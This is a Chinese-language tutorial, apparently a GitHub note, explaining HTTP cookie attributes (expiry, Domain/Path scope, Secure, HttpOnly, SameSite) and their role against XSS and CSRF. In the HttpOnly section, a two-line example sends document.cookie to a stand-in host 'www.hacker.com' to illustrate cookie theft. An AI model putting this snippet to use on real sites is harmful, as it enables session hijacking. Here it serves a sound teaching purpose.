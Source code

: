主要介绍以下参数：Domain / Path / Expires / Max-Age / HTTPOnly /  Secure /  SameSite


### 时间类属性 Expires / Max-Age###

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

Expires：指定一个GMT格式的绝对时间

Max-Age：指定一个以秒为单位的相对时间，相对的是文档第一次被请求时服务器记录的请求时间


### 域类属性 Domain / Path###

`Set-Cookie: id=a3fWa;Domain=.baidu.com;Path = /;`

1. 表示cookie所在的域，默认为html文件所在的域名，path为html文件所在的路径。

   例：为http://www.baidu.com/test/testCookie.html 页面中的js设置cookie，默认情况下cookie的的Domain为：.baidu.com，Path为：/test

2. cookie只能被该Domain域名或其子域名下的页面访问

3. cookie只能被该Path路径或其子路径下的页面访问

   1. 二级域名间可以通过设置Domain共享Cookie，实现跨域。

      ​例如：a.baidu.com      b.baidu.com`Set-Cookie: id=a3fWa;Domain=.baidu.com;Path = /;`



### 安全类属性 Secure / HttpOnly###

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly;`

 **Secure**指示浏览器仅通过 HTTPS 连接传回 cookie，仅用于HTTPS网站。

注意：Chrome 52 、Firefox 52之前的版本，即使设置了Secure，仍然可以通过HTTP进行传输，所以即使设置了Secure，敏感信息依然不能存在cookie里。

**HttpOnly**设置了HttpOnly的Cookie只能发送给服务器，不能通过JavaScript访问，有助于防止cookie劫持类XSS攻cookie劫持类XSS攻击

**cookie劫持类XSS攻击**

![图1_Xss攻击图解](http://o798x2hdw.bkt.clouddn.com//storage_in_frontend/storage_in_frontend_1.png)

var cookie = document.cookie;

src=‘www.hacker.com?cookie=’ + cookie 


### 安全类属性 SameSite###

1. 表明这个 cookie 是个“同站 cookie”，同站 cookie 只能作为第一方 cookie，不能作为第三方 cookie。
2. 可以用来防范CSRF（Cross-Site Request Forgery跨站请求伪造）攻击

**第三方cookie** 

简单来说，第三方cookie就是HTTP请求的Referer值和请求的网址域名不同

![图2_第三方cookie](http://o798x2hdw.bkt.clouddn.com//storage_in_frontend/storage_in_frontend_2.png)

